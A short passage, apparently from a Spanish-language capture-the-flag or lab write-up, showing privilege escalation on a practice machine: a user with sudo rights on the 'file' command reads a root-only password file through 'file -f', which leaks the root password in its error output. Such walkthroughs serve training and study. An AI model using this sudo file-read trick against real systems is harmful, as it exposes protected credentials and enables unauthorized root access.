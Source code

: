 Vemos **file** con permisos SUDO y hay un archivo **password.txt** en **opt** :
   ```bash
macarena@4e3f25c9a36e:/$ sudo file -f /opt/password.txt 
root:rooteable2: cannot open `root:rooteable2' (No such file or directory)

```

**YA ESTAMOS COMO ROOT.**
